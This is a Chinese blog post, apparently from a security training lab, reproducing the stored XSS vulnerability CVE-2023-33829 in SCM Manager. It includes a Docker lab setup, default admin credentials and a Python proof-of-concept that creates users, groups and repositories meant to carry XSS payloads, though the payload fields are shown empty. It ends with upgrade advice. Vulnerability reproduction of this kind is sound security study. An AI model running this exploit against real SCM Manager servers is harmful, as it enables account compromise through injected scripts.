





# SCM Manager XSS 漏洞复现（CVE-2023-33829） - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17460876.html`](https://www.cnblogs.com/hetianlab/p/17460876.html)

## 一、漏洞描述

### 漏洞简述

SCM-Manager 是一款开源的版本库管理软件，同时支持 subversion、mercurial、git 的版本库管理。安装简单，功能较强，提供用户、用户组的权限管理 ，有丰富的插件支持。由于在 MIT 的许可下是开源的，因此它允许被用于商业用途，而且其代码可以在 GitHub 上获取到。该项目最初只是被用于研究目的，而在其 2.0 版本之后，被 Cloudogu 公司接手管理和开发了其各种代码库，以便为各个公司提供专业的企业级支持。

该漏洞主要为攻击者利用其多个功能的描述字段的代码缺陷，构造 payload 进行 XSS 攻击。

### 漏洞影响范围

**供应商**：Cloudogu

**产品**：SCM Manager

**确认受影响版本**：SCM Manager 1.2 <= 1.60

**修复版本**：>1.60 最新版本为 2.43.1

## 二、漏洞复现实战

### 环境搭建

docker 镜像：

[`bitbucket.org/sdorra/docker-scm-manager/src/master/`](https://bitbucket.org/sdorra/docker-scm-manager/src/master/)

利用 shell 脚本搭建

shell:

```
#!/bin/bash
​
mkdir /var/lib/scm
chown 1000:1000 /var/lib/scm
docker run -v /var/lib/scm:/var/lib/scm -p 8080:8080 sdorra/scm-manager
```

### 漏洞复现

首先访问 SCM Manager，需身份认证

Username : scmadmin Password: scmadmin



#### repositories

repository 功能下 Description 字段该漏洞可利用

创建新 repository，并 payload 进行利用

Git 类型：



Subversion 类型：



#### Users

User 功能下 Display Name 字段该漏洞可利用

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

创建新 repository，并 payload 进行利用




可以看到新创建的账号中 Display Name 属性下显示异常，且 XSS payload 利用成功

#### Groups

Group 功能下 Description 字段该漏洞可利用



另外可以根据 POC 进行利用

POC：

```
import requests
import argparse
import sys
​
# Main menu
parser = argparse.ArgumentParser(description='CVE-2023-33829 exploit')
parser.add_argument("-u", "--user", help="Admin user or user with write permissions")
parser.add_argument("-p", "--password", help="password of the user")
args = parser.parse_args()
​
​
# Credentials
user = sys.argv[2]
password = sys.argv[4]
​
​
# Global Variables
main_url = "http://localhost:8080/scm" # Change URL if its necessary
auth_url = main_url + "/api/rest/authentication/login.json"
users = main_url + "/api/rest/users.json"
groups = main_url + "/api/rest/groups.json"
repos = main_url + "/api/rest/repositories.json"
​
# Create a session
session = requests.Session()
​
# Credentials to send
post_data={
  'username': user, # change if you have any other user with write permissions
  'password': password # change if you have any other user with write permissions
}
​
r = session.post(auth_url, data=post_data)
​
if r.status_code == 200:
  print("[+] Authentication successfully")
else:
  print("[-] Failed to authenticate")
  sys.exit(1)
​
new_user={
​
  "name": "newUser",
  "displayName": "",
  "mail": "",
  "password": "",
  "admin": False,
  "active": True,
  "type": "xml"
​
}
​
create_user = session.post(users, json=new_user)
print("[+] User with XSS Payload created")
​
new_group={
​
  "name": "newGroup",
  "description": "",
  "type": "xml"
​
}
​
create_group = session.post(groups, json=new_group)
print("[+] Group with XSS Payload created")
​
new_repo={
​
  "name": "newRepo",
  "type": "svn",
  "contact": "",
  "description": "",
  "public": False
​
}
​
create_repo = session.post(repos, json=new_repo)
print("[+] Repository with XSS Payload created")
```

### 漏洞修复

建议更新至 SCM Manager 最新版本，目前为 2.43.1

## 结束语

本文主要介绍了 CVE-2023-33829 SCM Manager XSS 漏洞复现过程，漏洞主要体现于攻击者利用其多个功能的描述字段的代码缺陷，构造 payload 进行 XSS 攻击。

本漏洞可参考之处为敏感功能避免重复调用非敏感功能代码，并做好过滤与校验，进行必要的安全测试。

**更多网安技能的在线实操练习，[请点击这里>>](https://www.hetianlab.com/)**